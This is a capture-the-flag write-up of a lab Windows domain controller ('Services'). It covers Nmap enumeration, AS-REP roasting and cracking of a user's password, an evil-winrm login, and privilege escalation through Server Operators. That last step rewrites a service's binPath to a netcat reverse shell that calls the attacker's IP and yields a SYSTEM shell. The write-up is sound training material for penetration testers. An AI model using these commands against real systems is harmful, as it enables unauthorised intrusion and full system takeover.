 # THM - Services

#### Ip: 10.10.181.162
#### Name: Services
#### Rating: Intermediate

------------------------------------------------

thm_services_pic.png


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.162       
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-18 10:44 CST
Warning: 10.10.181.162 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.181.162
Host is up (0.13s latency).
Not shown: 65405 closed tcp ports (reset), 101 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Above Services
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 16:45:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SERVICES
|   NetBIOS_Domain_Name: SERVICES
|   NetBIOS_Computer_Name: WIN-SERVICES
|   DNS_Domain_Name: services.local
|   DNS_Computer_Name: WIN-SERVICES.services.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-18T16:46:18+00:00
|_ssl-date: 2024-12-18T16:46:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2024-12-17T16:41:15
|_Not valid after:  2025-06-18T16:41:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-18T16:46:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.11 seconds
```

Lets update our `/etc/hosts` file:
```
10.10.181.162   services.local WIN-SERVICES.services.local
```

Looks like we've got a Domain Controller here.

Looking at the website on port 80 we find an `/about.html` which lists a few employees, and luckily for us also gives us the username naming convention.

thm_services_about.png

Lets use this to create a usernames list:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ cat users.txt   
j.doe
j.rock
w.masters
j.larusso
administrator
```

(always a good idea to just tack on administrator as well to lists like these for Windows targets)

### Exploitation

Using this list we find we can as-rep roast the j.rock user:

thm_services_asrep.png

Lets add this to a file called j.rock_hash and try cracking it with John.

Nice, that worked:

thm_services_john.png

`j.rock:Serviceworks1`

We can use evil-winrm to login:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ evil-winrm -i 10.10.181.162 -u j.rock -p 'Serviceworks1'
```

And grab the user.txt flag:

thm_services_user.png

### Privilege Escalation

Running `whoami /all` we see our user is in the Server Operators group:

thm_services_group.png

We should be able to abuse this for root access.

First let's see what services are running:

```
*Evil-WinRM* PS C:\temp> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc 
```

We can then upload a copy of nc64.exe:

```
*Evil-WinRM* PS C:\temp> upload ~/Tools/AD/nc64.exe
Info: Uploading ~/Tools/AD/nc64.exe to C:\temp\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Let's then update the service path, stop it, and then start it again:

```
*Evil-WinRM* PS C:\temp> sc.exe config cfn-hup binPath="C:\temp\nc64.exe -e cmd.exe 10.6.72.91 445"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\temp> sc.exe stop cfn-hup
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\temp> sc.exe start cfn-hup
```

This catches us a shell back as system in our listener:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ nc -lnvp 445                                        
listening on [any] 445 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.162] 59624
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
WIN-SERVICES
```

We can now grab the root.txt flag:

thm_services_root.png

Thanks for following along!

-Ryan

---------------------------------------